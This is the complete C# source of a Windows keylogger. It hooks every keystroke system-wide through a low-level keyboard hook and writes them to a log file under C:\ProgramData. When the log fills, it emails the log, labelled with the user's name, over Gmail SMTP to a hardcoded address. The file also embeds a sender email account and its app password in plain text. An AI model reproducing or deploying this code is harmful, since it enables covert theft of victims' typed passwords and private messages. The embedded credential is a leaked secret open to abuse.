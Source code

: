 using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.Windows.Forms;
using System.IO;
using System.Net.Mail;
using System.Net;

namespace mykeylogger01
{
    class Program
    {
        // ----------- EDIT THESE VARIABLES FOR YOUR OWN USE CASE ----------- //
        private const string FROM_EMAIL_ADDRESS = "cody.logger.test@gmail.com";
        private const string FROM_EMAIL_PASSWORD = "agna qgzj jnah kaho";
        private const string TO_EMAIL_ADDRESS = "cody.michael.rochester@gmail.com";
        private const string LOG_FILE_NAME = @"C:\ProgramData\mylog.txt";
        private const string ARCHIVE_FILE_NAME = @"C:\ProgramData\mylog_archive.txt";
        private const bool INCLUDE_LOG_AS_ATTACHMENT = true;
        private const int MAX_LOG_LENGTH_BEFORE_SENDING_EMAIL = 300;
        private const int MAX_KEYSTROKES_BEFORE_WRITING_TO_LOG = 0;
        // ----------------------------- END -------------------------------- //

        private static int WH_KEYBOARD_LL = 13;
        private static int WM_KEYDOWN = 0x0100;
        private static IntPtr hook = IntPtr.Zero;
        private static LowLevelKeyboardProc llkProcedure = HookCallback;
        private static string buffer = "";
        
        static void Main(string[] args)
        {
            hook = SetHook(llkProcedure);
            Application.Run();
            UnhookWindowsHookEx(hook);
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
        {

            if (buffer.Length >= MAX_KEYSTROKES_BEFORE_WRITING_TO_LOG)
            {
                StreamWriter output = new StreamWriter(LOG_FILE_NAME, true);
                output.Write(buffer);
                output.Close();
                buffer = "";
            }

            FileInfo logFile = new FileInfo(@"C:\ProgramData\mylog.txt");

            // Archive and email the log file if the max size has been reached
            if (logFile.Exists && logFile.Length >= MAX_LOG_LENGTH_BEFORE_SENDING_EMAIL)
            {
                try
                {
                    // Copy the log file to the archive
                    logFile.CopyTo(ARCHIVE_FILE_NAME, true);

                    // Delete the log file
                    logFile.Delete();

                    // Email the archive and send email using a new thread
                    System.Threading.Thread mailThread = new System.Threading.Thread(Program.sendMail);
                    Console.Out.WriteLine("\n\n**MAILSENDING**\n");
                    mailThread.Start();
                }
                catch(Exception e)
                {
                    Console.Out.WriteLine(e.Message);
                }
            }

            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
                if (((Keys)vkCode).ToString() == "OemPeriod")
                {
                    Console.Out.Write(".");
                    buffer += ".";
                }
                else if (((Keys)vkCode).ToString() == "Oemcomma")
                {
                    Console.Out.Write(",");
                    buffer += ",";
                }
                else if (((Keys)vkCode).ToString() == "Space")
                {
                    Console.Out.Write(" ");
                    buffer += " ";
                }
                else
                {
                    Console.Out.Write((Keys)vkCode);
                    buffer += (Keys)vkCode;
                }
            }
            
            return CallNextHookEx(IntPtr.Zero, nCode, wParam, lParam);
        }

        public static void sendMail()
        {
            try
            {
                // Read the archive file contents into the email body variable
                StreamReader input = new StreamReader(ARCHIVE_FILE_NAME);
                string emailBody = input.ReadToEnd();
                input.Close();

                // Create the email client object
                SmtpClient client = new SmtpClient("smtp.gmail.com")
                {
                    Port = 587,
                    DeliveryMethod = SmtpDeliveryMethod.Network,
                    UseDefaultCredentials = false,
                    Credentials = new NetworkCredential(FROM_EMAIL_ADDRESS, FROM_EMAIL_PASSWORD),
                    EnableSsl = true,
                };

                // Build the email message
                MailMessage message = new MailMessage
                {
                    From = new MailAddress(FROM_EMAIL_ADDRESS),
                    Subject = Environment.UserName + " - " + DateTime.Now.Month + "." + DateTime.Now.Day + "." + DateTime.Now.Year,
                    Body = emailBody,
                    IsBodyHtml = false,
                };

                if (INCLUDE_LOG_AS_ATTACHMENT)
                {
                    Attachment attachment = new Attachment(@"C:\ProgramData\mylog_archive.txt", System.Net.Mime.MediaTypeNames.Text.Plain);
                    message.Attachments.Add(attachment);
                }

                // Set the recipient
                message.To.Add(TO_EMAIL_ADDRESS);

                // Send the message
                client.Send(message);

                // Release resources used by the msssage (archive file)
                message.Dispose();
            }
            catch (Exception e)
            {
                Console.Out.WriteLine(e.Message);
            }
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            Process currentProcess = Process.GetCurrentProcess();
            ProcessModule currentModule = currentProcess.MainModule;
            String moduleName = currentModule.ModuleName;
            IntPtr moduleHandle = GetModuleHandle(moduleName);
            return SetWindowsHookEx(WH_KEYBOARD_LL, llkProcedure, moduleHandle, 0);
        }

        [DllImport("user32.dll")]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("user32.dll")]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll")]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetModuleHandle(String lpModuleName);
    }
}

